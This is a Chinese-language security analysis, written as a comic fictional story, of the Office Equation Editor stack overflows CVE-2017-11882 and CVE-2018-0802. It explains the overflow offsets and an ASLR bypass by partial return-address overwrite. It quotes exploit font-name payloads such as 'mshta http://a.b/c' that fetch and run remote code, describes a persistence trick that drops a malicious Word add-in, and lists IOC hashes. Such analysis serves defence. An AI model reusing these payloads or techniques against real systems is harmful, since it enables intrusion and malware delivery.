

前言
由非正经分析人员在非工作时间以非常规角度描述的非真实故事。
故事剧情纯属虚构，如有雷同，纯属搞事。
惹上麻烦
近期，Microsoft office一家人惹上大麻烦了，都是收养的小儿子”EQNEDT32”搞的，警察局的人都上门找好几次了，到底是为啥呢？这还得从去年的”CVE-2017-11882”事件说起。
2017年7月某天，隔壁Embedi家的老王发现”EQNEDT32”这小子大半夜翻墙出去直到凌晨天刚亮才回来，而且衣服脏脏烂烂，这件事其实并没有引起老王太大的注意，但不巧的是，这情况一直持续好几周，老王最终还是决定告诉”office”一家之长——-老软。
老软这个人其实是一个很不错的商人，但仅此而已，他马上找到“EQNEDT32”一问究竟，
“EQNEDT32”也很老实，直接告诉老软”最近在研究密室进入这个技术，也就是如何在大门紧锁且没有钥匙的情况下进去把门开开“。
老软一乐，”ORz，养了这么大，终于看到儿子能在放学之后除了看书还能有点别的兴趣爱好了“，“那你啥想法，为啥大半夜出去?”老软疑惑问道。
”哦，我的软die，可以用铲子挖洞进去啊，我最近就在挖咱家那窗户店，大白天要上课，所以晚上去挖，呵呵“，
”卧槽，你这不是坑你爹吗，那你挖的咋样啊？“，
”已经挖通了，就等写结题报…“，顾不得听完儿子的话，老软赶紧开车去店铺查看情况。
从CVE-2017-11882 事件说起
二十分钟的车程这次只开了十二分钟就到了，到店一看，大门敞开，收银台、保险柜连着墙皮被撬走，窗户啥的倒是都在，损失怕不是有点大咯，赶紧报警，警察同志以神速给出了案件的通报，如下:
医学科报告:
“EQNEDT32”可能是服用了某种不正常的药物——CVE-2017-11882，关键成分”Equation Native”，其结构如下图，MTEF Byte Stream部分给出的是MTEF V.3版的FONT record结构，因为出问题的就在这个结构。
在未征得老软的同意，强行对”EQNEDT32”大脑进行了解剖(还活着)，抱歉。
发现其处理字体结构时存在问题
处理链 sub_4214C6 -> sub_4115A7 -> sub_41160F，由于栈上变量vul_val大小只有0x24 = 36字节，即使算上v13，old_ebp也只有44个字节，那么当长度足够长的字体名称(font name) > 44个字节则会覆盖掉返回地址，造成栈缓冲区溢出，轻则心理扭曲，重则走上不归路(原来的返回地址被覆盖了，想回也不好回啊)。
刑侦科报告:
通过医学科的报告，知道EQNEDT32这小子是存在严重问题，并且作为家长的老软也没有给孩子讲授比较关键的<青少年预防犯罪心理疏导>课程，比如 ASLR、DEP、GS啥啥的，使得EQNEDT32长期处于裸奔的状态。
通过对样品(POC)的分析，如下:
选中的蓝色部分即为44字节缓冲区，红色圈中即为”新的返回地址“，对应Call WinExec，当成功覆盖并返回时，栈中的参数1即为 sub_41160F的参数1，也就是输入的那44字节字体名称，造成执行”winexec(‘cmd.exe /ccalc.exe & ‘“)”。
知道问题原因后，警察叔叔通过高科技，锁定了三种有问题的药制品厂家，他们负责人的供词如下:
厂A: 没有啊，那个font name给的 cmd http://a.b/c ，其他人吃着没事啊
厂B: 别瞎说，我们是正规企业，font name参入了mshta http://a.b/c而已
厂C: 怎么会，cmd.exe /c %temp%\a.tmp 也有问题吗，ole自动释放的不怪我们啊
最后结论: EQNEDT32 自身存在问题，药品只对他造成了严重影响，其他未见到有消费者反馈，店铺被偷主要还是EQNEDT32挖的洞造成犯罪人员有机可乘，负主要责任，目前警方仍在侦破中…
看完通报，老软很生气啊，一来自己对孩子没有教育好，导致孩子吃药还能把脑子吃坏，二来，这店铺的案件怕是得费很久时间还不一定能把犯罪人员抓回来，就算抓回来钱大概也是没了。
一首<凉凉>听完，老软决定还是得给儿子进行二次教育，把错过的<青少年预防犯罪心理疏导>课程给儿子上完，但毕竟儿子都这么大了，回炉重造怕是很难，儿子听完ASLR之后就烦了，坚决不听课了，再说跳楼，虽然老软知道儿子说的楼就是台阶(20CM高)，但也不舍得啊，所以也就不再强迫。
当然， EQNEDT32也学乖了，并且听了老软的话，他也有了一些变化，一是他学习了ASLR，自身有了一定的抗性(能学会还得亏有重定位表，然后DLLCharacteristics字段设置为0x40即可)，同时“解剖”也不是白做的，医学科老教授给他patch了下脑子，现在就可以可以抵抗CVE-2017-11882，想想也开心。
当然，事情如果到这里结束，怕和”陨落“没有半毛钱关系，所以下面还得搞些事情。
转折
老软也觉得儿子是真的变好了，逐渐将自己的心思放在了自家的窗户店的经营上，为了避免出现上次店被偷， 他特意请了一个打杂的，专门负责晚上值夜班，生意也渐渐有了起色，几个月相安无事。
某天清早，天还没亮，手机突然急匆匆响起来，老软以为闹钟，直接关掉，倒头再睡，没多久，座机又响了，一边骂着”mmp“，一边挪着身体去关座机，抬起电话准备扣下的时候，瞄到来电显示是999，赶紧清醒起来抬手说”喂，我是老软，警察叔叔找我啥事？“ ，”来趟公安局吧，你儿子又出事了“，话音刚毕，老软已经开车在路上了。
接CVE-2018-0802 事件
到公安局门口才发现，有一堆人在门口，不知谁喊了一句，一伙人把老软给围了起来，要不是有警察叔叔保护，怕老软就真的软了，长官李Sir告诉他，”昨夜，商业街整条街道全部被偷，就你家店铺好着，同时监控显示，你儿子’EQNEDT32’在商业街转悠了一晚上，已经被拘留，但不幸的是，他刚被逮捕没多久，就失去意识，可能有生命危险，目前已经紧急进行了手术，目前医生给出的解释是疑似CVE-2018-0802中毒“，你看下这个报告吧。
医疗诊断说明(分析报告)
经过对上次CVE-2017-11882事件发生时，EQNEDT32的医疗数据进行进一步分析，发现其存在另一处的栈溢出问题，如下:
在sub_421E39逻辑中，直接将font Name拷贝到sub_421774栈中，其变量lf的大小为0xAC共172字节，但复制时从+0x1C处开始，所以有0xAC-0x1C为144字节，算上old_ebp有148字节，所以当font name大于148字节时，会造成返回地址覆盖，造成栈溢出。

通过对身体内残留药物(POC)的分析下，数据如下图，
其中蓝色选中数据即为font name的字段，长度为148，红色选中为需要覆盖的返回地址，但由于strcpy复制时会遇到\x00结束，所以实际修改了原始地址的低16位，为什么会选择0x0025呢？因为EQNEDT32没有开启DEP，而且返回地址后有一个font name的指针，那么可通过找到一个ret指令地址，使得让eip指向font name直接执行shellcode了，以此绕过ASLR防护，那这个ret指令的寻找受到了限制(受限于原返回地址)，其只能从rva范围0x20000 ~ 0x200FF寻找，不巧这个值有且只有一个,位于rva = 0x20025，故取0x0025。
既然能够执行任意shellcode(目前长度148还行，内存里面其实还可以再跳一跳，这就很长了)，那当然八仙过海各显神通了。
该POC实现的依然是跳入winexec执行cmd，启动因OLE缓存机制事先放在%temp%下的PE文件。
xor eax,eax |
当然，也观察到有部分样本通过枚举kernel32模块的导出表，查找ExpandEnvironmentStringsA、CopyFileA、ExitProcess函数，将%temp%下携带的office恶意插件放入word的自启动路径中(把窃听器丢入你家门口啊)
老软看到这里，心里凉了一半，这小子咋就老犯病呢，这时，李sir跑过来，看起来很捉急，“老软，先冷静一下，我有个不好的消息告诉你，那就是你家’EQNEDT32’快不行了，医生准备2次patch这小子脑子的时候，存在意见分歧，争吵了半个小时，最后决定不patch了，但很遗憾，这小子已经凉了，是医疗事故，赔偿应该没问题的，你要…”话还没说完,老软头犯晕昏过去了.
后记
事情已经过去快一周了,老软早恢复了,窗户店依旧开着,日子也和平常一般过着.
邻居老王最近生病了,病的不轻,有传言说”EQNEDT32”是老王的儿子,但这又能怎么样呢?毕竟人已经没了。
有问题的药(IOC)
C22937CEE87B45BA18C16318533648FB
37BF2DF225650B39C9874ECF392A9A9B
8E8C2B4AA6C35686945C074306DB041E
E27E9C455CBB9F9E5FB65597791FF33A
REF
格式参考
https://stackoverflow.com/questions/15320088/parse-mathtype-mtef-data-from-ole-binary-string
MTEF v3的介绍
http://rtf2latex2e.sourceforge.net/MTEF3.html
管家写的”黑凤梨”一篇
http://www.freebuf.com/column/159865.html